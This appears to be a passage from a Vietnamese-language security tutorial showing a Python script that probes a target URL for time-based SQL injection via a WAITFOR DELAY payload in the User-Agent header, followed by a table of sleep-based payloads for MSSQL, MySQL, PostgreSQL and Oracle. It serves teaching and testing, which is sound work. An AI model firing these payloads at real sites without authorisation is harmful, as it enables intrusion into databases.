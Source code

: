
### **Ví dụ kiểm tra với Python**

#### **Script kiểm tra**
```python
import requests
import time

# URL của mục tiêu
url = "http://targetwebsite.com"

# Payload kiểm tra lỗ hổng
headers_with_payload = {
    "User-Agent": "';WAITFOR DELAY '0:0:10'--"
}

headers_without_payload = {
    "User-Agent": "NormalUserAgent"
}

# Gửi yêu cầu với payload
start_time = time.time()
response = requests.get(url, headers=headers_with_payload)
time_with_payload = time.time() - start_time

# Gửi yêu cầu không có payload
start_time = time.time()
response = requests.get(url, headers=headers_without_payload)
time_without_payload = time.time() - start_time

# So sánh thời gian phản hồi
print(f"Thời gian với payload: {time_with_payload} giây")
print(f"Thời gian không payload: {time_without_payload} giây")

if time_with_payload - time_without_payload >= 10:
    print("Lỗ hổng Time-based SQL Injection đã được xác định!")
else:
    print("Không phát hiện lỗ hổng Time-based SQL Injection.")
```

---

### **Ví dụ Payload cho các hệ quản trị cơ sở dữ liệu khác**
| **Hệ quản trị CSDL** | **Payload**                                   |
|----------------------|-----------------------------------------------|
| **MSSQL**            | `WAITFOR DELAY '0:0:10'`                     |
| **MySQL/MariaDB**    | `AND (SELECT SLEEP(10) FROM dual)`           |
| **PostgreSQL**       | `` `pg_sleep(10)` ``                         |
| **Oracle**           | `AND 1234=DBMS_PIPE.RECEIVE_MESSAGE('STR',10)`|

---